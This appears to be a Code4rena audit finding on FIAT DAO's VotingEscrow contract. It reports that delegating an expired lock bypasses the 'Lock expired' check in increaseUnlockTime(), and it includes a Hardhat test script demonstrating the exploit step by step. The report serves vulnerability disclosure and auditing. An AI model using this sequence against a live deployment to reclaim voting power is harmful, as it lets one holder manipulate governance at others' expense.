 

***

## [[M-03] Inconsistent logic of increase unlock time to the expired locks](https://github.com/code-423n4/2022-08-fiatdao-findings/issues/254)
_Submitted by KIntern&#95;NA, also found by ak1, cryptphi, and scaraven_

Can not prevent expired locks being extended.

### Proof of Concept

<https://github.com/code-423n4/2022-08-fiatdao/blob/main/contracts/VotingEscrow.sol#L493-L523>

Call function function `increaseUnlockTime()` with an expired lock (locked\[msg.sender].end < block.timestamp)

*   Case 1: if sender's lock was not delegated to another address, function will be revert because of the requirement

<https://github.com/code-423n4/2022-08-fiatdao/blob/main/contracts/VotingEscrow.sol#L511>

*   Case 2: if sender's lock was delegated to another address, function will not check anything and the lock can be extended.

But in case 1, sender’s lock was not delegated to another, the sender can delegate to new address with end time of lock equal to new end time. After that he can call `increaseUnlockTime()` and move to case 2. Then sender can undelegate and the lock will be extended, and sender will take back vote power.

Here is the script :

```typescript=
describe("voting escrow", async () => {
    it("increase unlock time issue", async () => {
      await createSnapshot(provider);
      //alice creates lock
      let lockTime = WEEK + (await getTimestamp());
      await ve.connect(alice).createLock(lockAmount, lockTime);
      // bob creates lock
      lockTime = 50 * WEEK + (await getTimestamp());
      await ve.connect(bob).createLock(10 ** 8, lockTime);
      //pass 1 week, alice's lock is expired
      await ethers.provider.send("evm_mine", [await getTimestamp() + WEEK]);
      expect(await ve.balanceOf(alice.address)).to.eq(0);
      //alice can not increase unlock timme
      await expect(ve.connect(alice).increaseUnlockTime(lockTime)).to.be.revertedWith("Lock expired");
      //alice delegate to bob then can increase unlock time
      await ve.connect(alice).delegate(bob.address);
      await expect(ve.connect(alice).increaseUnlockTime(lockTime)).to.not.be.reverted;
      //alice delegate back herself
      await ve.connect(alice).delegate(alice.address);
      expect(await ve.balanceOf(alice.address)).to.gt(0);
    });
```
